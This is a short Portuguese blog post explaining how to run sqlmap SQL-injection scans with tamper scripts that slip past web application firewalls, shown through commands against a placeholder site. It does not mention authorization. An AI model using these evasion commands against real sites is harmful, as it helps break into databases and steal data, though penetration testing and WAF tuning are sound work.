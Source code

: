 ```yaml
---
title: Burlar WAF com SQLMAP
date: 2023-10-16 14:30:00 +0800
categories: [h4ckthreat, hacking]
tags: [sqlmap, hacking] # TAG names should always be lowercase
image: /assets/img/posts/sqlmap.jpg
---
```


<p align="justify"> Com o avanço dos Firewalls de Aplicação da Web (Web Application Firewalls - WAFs), a tarefa de utilizar a ferramenta "sqlmap" tornou-se progressivamente mais desafiadora, uma vez que as requisições são rotineiramente identificadas como suspeitas e bloqueadas automaticamente. Diante dessa situação, os desenvolvedores da ferramenta têm se empenhado em criar pequenos scripts para contornar esses WAFs e permitir a execução de consultas SQL injection.</p>

<p align="justify">Aqui estão os passos para utilizar o "sqlmap" de forma mais eficaz:</p>

# 1. Comece baixando o sqlmap diretamente do repositório:

```
git clone https://github.com/sqlmapproject/sqlmap
```

# 2. Em seguida, execute a ferramenta para avaliar a segurança do alvo específico, como mostrado no exemplo a seguir:

```
sqlmap.py --url="www.site.com/id.php?=1" --tamper=base64encode
```

<p align="justify"> Dessa forma, o script converterá a consulta em uma codificação base64, ajudando a superar alguns tipos de Firewalls.</p>

# 3. Quando se deparar com um Firewall mais sofisticado, será necessário empregar uma combinação de métodos de evasão. Utilize o comando a seguir como referência:

```
sqlmap.py --url="www.site.com/id.php?=1" --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

<p align="justify"> Essa combinação de técnicas de evasão será empregada simultaneamente para ocultar as requisições e passar pelos controles do Firewall, permitindo que o "sqlmap" continue a funcionar de maneira eficaz.</p> 